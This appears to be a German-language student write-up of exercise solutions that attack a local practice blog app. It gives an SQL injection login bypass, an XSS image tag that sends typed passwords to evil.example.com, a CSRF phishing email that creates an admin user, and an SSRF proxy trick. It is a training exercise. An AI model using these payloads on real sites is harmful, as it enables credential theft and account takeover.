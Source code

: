 # 1

> Finde einen gültigen Usernamen mithilfe des /whoami Endpunktes (angenommen es ist nicht bekannt, dass er "fuu" heisst 😜).

- username: `' or true LIMIT 1 --`
- password: `a`

response: `{"username":"admin","fullname":"Super Admin","password":"super5ecret"}`

# 2

> Schreibe einen Blogpost, welcher von jedem Besucher das aktuelle Passwortfeld ausliest und es an evil.example.com schickt.

```html
How Rust improves application security.
Rewriting your application in Rust is a great idea.
RIIR stops all kinds of memory safety issues like buffer overflows, use after free
and your passsword getting stolen 😉.
<img src="https://rustacean.net/assets/cuddlyferris.png" onload="setInterval(()=>{const pw = document.getElementsByClassName('form-control me-1')[1].value;fetch(`https://evil.example.com/passsword?pwd=${encodeURIComponent(pw)}`);},1000)"/>
```

# 3

> Schreibe den Inhalt eines fiktiven Fishing-mails an den (eingeloggten) admin-User, sodass ein neuer User evil mit einem einzelnen Klick erstellt wird. (Annahme: /api/admin* ist geschützt)

Guten Tag Administrator

Ich konnte den letzten Blog von gestern nicht lesen. Gestern
habe ich ihn noch gelesen, aber als ich ihn heute meinen Freunden
zeigen wollte, da es ein sehr guter Blog post war, habe ich ihn
nochmals aufgemacht. Da hat es aber einen "Internal Server Error"
gegeben. Was bedeutet das und können Sie das wieder reparieren?

Es handelt sich um den folgenden Post: [localhost:8080/very-cool-post.html](localhost:8080/api/admin123/create?username=evil&fullname=hahahaha&password=getpasswordedyoupasswordypassword)

Freundliche Grüsse
Daniel Phischer

# 4

> Finde das admin-Passwort mithilfe des /api/blog/health Endpunktes.

Proxy aufsetzen der `/*`-> `http://blog-host:8080/api/user/whoami` redirected, dann den host vom Proxy
im `Host` header auf `/health` setzen.